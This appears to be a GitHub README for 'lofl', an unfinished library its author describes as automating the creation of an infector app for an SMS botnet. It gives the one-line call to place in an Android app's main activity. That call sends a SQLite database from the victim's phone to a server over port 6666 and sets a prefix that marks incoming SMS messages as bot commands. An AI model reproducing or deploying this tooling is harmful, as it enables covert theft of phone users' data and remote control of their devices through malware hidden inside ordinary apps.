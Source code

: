 This project was initially a self destructable messaging app that turned into a library called lofl for automating the process of creating an infector app for an sms botnet. im not finished. I broke the app turning it into a library. i need to figure out how to override the binary broadcast receiver in the app package.
 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
